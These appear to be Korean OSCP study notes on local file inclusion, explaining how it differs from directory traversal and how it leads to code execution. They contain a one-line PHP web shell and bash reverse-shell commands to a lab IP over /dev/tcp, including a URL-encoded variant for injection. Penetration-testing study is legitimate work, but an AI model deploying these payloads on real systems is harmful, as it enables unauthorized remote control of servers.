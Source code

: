 ```yaml
---
layout: post
title: 9.2. File Inclusion Vulnerabilities
subtitle: 파일 인클루전
author: 마준영
categories: oscp
tags: 
top: 0
---
```

## 9.2.1. Local File Inclusion (LFI)

LFI취약점은 언뜻 보면 디랙토리 트래버셜과 비슷해보이지만 차이가 있다.
1. 디렉토리 트래버셜 : 웹 서버의 웹 루트 외부에 있는 파일 내용을 읽는 데 사용됨.
2. LFI : 애플리케이션의 실행 중인 코드에 파일을 포함 시킴.
   이로 인해 파일을 실행하거나 비실행 파일의 내용을 표시할 수 있음.
결론 : 디렉토리 트래버셜은 정보를 수집한다면, LFI는 RCE의 역할을 수행한다고 볼 수 있다.

#### 관련 코드
1. PHP 한줄 웹쉘
   ```php
<?php echo system($_GET['cmd']); ?>
```
2. 리버스쉘
   ```shell
   bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
   bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
   bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
   
```
3. 
